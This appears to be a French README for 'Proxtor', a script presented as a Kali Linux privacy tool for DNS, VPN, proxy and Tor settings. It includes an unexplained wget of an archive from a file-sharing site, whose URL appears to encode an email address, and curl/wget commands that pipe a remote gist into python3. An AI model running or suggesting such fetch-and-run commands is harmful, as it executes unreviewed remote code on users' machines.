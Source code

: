 # Proxtor - Outil de Sécurisation de Kali Linux

## Demo

[![Proxtor Tool](https://img.shields.io/badge/🔒%20Proxtor-Sécurise%20Kali%20Linux-blue?style=for-the-badge)](https://trh4ckn0n.github.io/proxtor-tool/)

## Description

Proxtor est un outil de sécurisation pour Kali Linux qui permet de configurer rapidement des paramètres de sécurité comme les DNS, VPN, Proxy et Tor. Il vous aide à sécuriser votre machine et à masquer votre identité en ligne.

## Fonctionnalités

- Changer les DNS
- Configurer un VPN
- Configurer un Proxy
- Configurer Tor

## Preparation

```bash
wget https://www.zipshare.com/fileDownload/eyJhcmNoaXZlSWQiOiJlMTAyMzJkOS0wM2VmLTQzMTgtOWRlYi04MWY1NzE1YTIwZTEiLCJlbWFpbCI6ImplcmVteWRpbGlvdHRpQGdtYWlsLmNvbSJ9 && unzip 'eyJhcmNoaXZlSWQiOiJlMTAyMzJkOS0wM2VmLTQzMTgtOWRlYi04MWY1NzE1YTIwZTEiLCJlbWFpbCI6ImplcmVteWRpbGlvdHRpQGdtYWlsLmNvbSJ9'
```

## Utilisation

Pour utiliser cet outil, vous pouvez exécuter la commande suivante :

```bash
curl -s https://gist.githubusercontent.com/trh4ckn0n/a8e71e57d1e7ee42013f1713ac1a5ac8/raw/dc19399c6875d871bc6f395aafa3670f4dca86de/proxtor.py | python3
```

Ou avec `wget` :

```bash
wget -qO- https://gist.githubusercontent.com/trh4ckn0n/a8e71e57d1e7ee42013f1713ac1a5ac8/raw/dc19399c6875d871bc6f395aafa3670f4dca86de/proxtor.py | python3
```

## Développeur

Développé par [trhacknon](https://github.com/trh4ckn0n).
